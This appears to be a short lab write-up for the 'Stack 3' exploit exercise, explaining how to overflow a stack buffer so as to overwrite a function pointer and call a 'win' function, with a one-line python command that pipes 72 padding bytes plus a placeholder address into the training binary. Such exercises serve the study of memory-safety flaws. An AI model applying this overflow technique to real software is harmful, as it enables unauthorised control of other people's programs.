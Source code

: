 #Stack 3

Overwriting the fucntion pointer stored on the stack. The goal is to change the code flow and call win function.

```
python -c 'print "A" * 72 + "address of win"' | ./stack3 
``` 

Note:
* Still little endian!!!
